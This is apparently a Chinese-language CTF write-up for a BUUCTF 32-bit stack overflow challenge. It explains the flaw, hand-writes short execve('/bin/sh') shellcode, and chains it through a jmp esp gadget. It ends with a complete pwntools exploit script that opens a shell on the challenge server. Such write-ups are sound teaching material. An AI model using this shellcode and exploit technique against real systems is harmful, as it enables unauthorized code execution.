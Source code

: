 ### Jmp esp GetShell

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67dc066388c538a9b5c20df4.png)

明显存在栈溢出

![](https://pic1.imgdb.cn/item/67dc071088c538a9b5c20e1d.png)

直接生成 payload

```python
context(log_level = 'debug', arch = 'i386', os = 'linux')
shellcode=asm(shellcraft.sh())
```

但是长度过多

![](https://pic1.imgdb.cn/item/67dc082988c538a9b5c20e66.png)

这样写 shellcode 的长度很短，能够写入栈

```python
shellcode ='''
xor eax,eax               # eax 置 0
xor edx,edx				 # edx 置 0
push edx				 # 将 0 入栈，标记了 "/bin/sh"的结尾
push 0x68732f2f           # 传递 "/sh"，为了 4 字节对齐，使用 //sh，这在 execve() 中等同于 /sh
push 0x6e69622f           # 传递 "/bin"”
mov ebx,esp               # 此时 esp 指向了 "/bin/sh"，通过 esp 将该字符串的值传递给 ebx
mov al,0xB                # eax 置为 execve 函数的中断号
int 0x80                  # 调用软中断
'''
shellcode = asm(shellcode)
```

在 hint 中发现有个 `jmp esp`

![](https://pic1.imgdb.cn/item/67dc0b6a88c538a9b5c20f1c.png)

shellcode 现在写入栈了，因为 esp 寄存器指向栈顶

现在将返回地址写成 jump_esp，重新跳到栈上

手动写入 `sub esp,40;call esp` 开栈执行，即可获取 shell

```python
payload = shellcode.ljust(0x24,'\x00')+p32(jump_esp)
payload += asm("sub esp,40;call esp")
```

```python
from pwn import *

p = remote('node5.buuoj.cn',25741)

context(arch='i386',os='linux')
jump_esp = 0x8048554

shellcode = '''
xor eax,eax
xor edx,edx
push edx
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
mov al,0xB
int 0x80
'''

shellcode = asm(shellcode)

payload = shellcode.ljust(0x24,b'\x00') + p32(jump_esp)

payload += asm("sub esp,40;call esp")

p.sendline(payload)
p.interactive()
```

